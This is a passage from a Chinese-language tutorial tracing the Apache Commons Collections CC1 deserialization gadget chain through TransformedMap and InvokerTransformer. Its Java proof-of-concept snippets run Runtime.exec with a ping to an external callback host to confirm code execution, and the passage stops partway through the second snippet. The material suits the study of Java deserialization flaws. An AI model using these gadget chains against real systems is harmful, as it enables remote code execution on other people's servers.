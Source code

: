 ```java
}
```

不想费工夫再去反射调用一个 transformValue 方法，然后再传一个`Runtime.getRuntime()`的参数，此时运行肯定没有 RCE。

2.接下来，看`valueTransformer.transform(object);`中的 object，它是从 transformValue 这个函数的参数来的，要控制参数那就要找同名函数（可以是同类也可以是不同类），而接下来找链子，最好是要去找不同类但是与 transformValue 同名的函数，不管是为了找参数的输入点还是为了继续找链子，都是得先去找同名函数，也巧，除了它自身以外就只有两个同名函数，且都是是在同一类中，看看这个 put。

![alt text](image-53.png)

![alt text](image-54.png)

这个 put 是重写了 Map 类的 put 方法，只要调用 TransformedMap 类的实例的 put 方法，就会自动调用 transformValue 这个函数，而 transformValue 这个函数的参数就是 object，所以 object 就是可控的了。

3.那现在只需要对 transformedMap 进行一个 put 的操作即可，不仅去调用了 transformValue 函数，参数也能传一个 Runtime.getRuntime()进行 RCE，代码如下-->

```java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        InvokerTransformer invokerTransformer = new InvokerTransformer(methodName, paramTypes, argsForConstructor);
        //invokerTransformer.transform(Runtime.getRuntime());
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
        transformedMap.put("null",Runtime.getRuntime());
    }
}
```

结果如下-->

![alt text](image-48.png)

接下来就是去找哪里又调用了 put，这个可就多了，大概有 10490 处调用了......这里是初顾茅庐，找到了一个这样的，至于后面有没有成功的链子，目前未知，谁都不敢保证这么走后面就没有一条成功的链子。

当然 CC1 最后走的不是这里，CC1 从一开始找 transform 的同名函数时候，并不是找的 transformValue 这个方法，而是下面这里

![alt text](image-55.png)

4.初顾茅庐链子就到这里，将初顾茅庐的链子，结合洞悉概念时候提及的几个方法相结合，美化一下代码，如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
```